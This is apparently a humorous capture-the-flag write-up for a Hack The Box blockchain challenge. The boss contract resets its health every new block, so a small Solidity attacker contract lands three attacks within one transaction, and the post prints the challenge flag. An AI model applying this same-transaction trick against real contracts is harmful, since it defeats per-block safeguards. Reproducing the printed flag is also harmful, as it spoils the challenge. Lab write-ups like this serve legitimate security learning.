 ```yaml
---
title: hacqueen-vs-eldorion
image: /mnt/data/A_vibrant_digital_illustration_with_elements_of_fa.png
date: 2025-03-26
description: A glitter-fueled showdown between Hacqueen and a self-healing smart contract beast. Spoiler: the unicorn doesn’t miss.
tags: ["Blockchain", "Smart Contract", "CTF", "HTB"]
---
```


# 🌈✨ Hacqueen vs Eldorion: Bytes, Bravery & a Battle Unicorn ✨🌈

![Hacqueen vs Eldorion](/mnt/data/A_vibrant_digital_illustration_with_elements_of_fa.png)

This HTB challenge was pure drama: a pixel-perfect realm, an overpowered regenerating beast, and one fabulous hacker armed with Web3, glitter, and Python.

> *Welcome to the realms of Eldoria, adventurer. You’ve found yourself trapped in this mysterious digital domain, and the only way to escape is by overcoming the trials laid before you. But your journey has barely begun, and already an overwhelming obstacle stands in your path. Before you can even reach the nearest city, seeking allies and information, you must face Eldorion, a colossal beast with terrifying regenerative powers. This creature, known for its "eternal resilience" guards the only passage forward. It's clear: you must defeat Eldorion to continue your quest.*

🎯 **Goal**: Defeat Eldorion — a smart contract boss that heals every time a new block is mined.

Sounds impossible? Not for Hacqueen. Let’s ride. 🦄💻

---

## 🔍 Contract Breakdown

```solidity
modifier eternalResilience() {
    if (block.timestamp > lastAttackTimestamp) {
        health = MAX_HEALTH;
        lastAttackTimestamp = block.timestamp;
    }
    _;
}
```

Eldorion has 300 HP. Each attack can only do 100 damage. And it resets health every new block.  
🧠 So we need **three hits in one transaction**.

---

## 🛠️ The Exploit

```solidity
contract Slayer {
    IEldorion public target;

    constructor(address _target) {
        target = IEldorion(_target);
    }

    function slay() external {
        target.attack(100);
        target.attack(100);
        target.attack(100);
    }
}
```

Wrapped into a Python script using Web3.py + solcx, we deploy this contract and call `slay()`.

---

## 🧪 Result

Flag in hand, beast on the floor:

```
HTB{w0w_tr1pl3_hit_c0mbo_ggs_y0u_defe4ted_Eld0r10n}
```

---

## 🦄 Final Glitterprint

✨ One block.  
💥 Three hits.  
👑 All slay, no delay.

Because when Hacqueen and her unicorn ride in... bugs get patched and beasts get rekt.
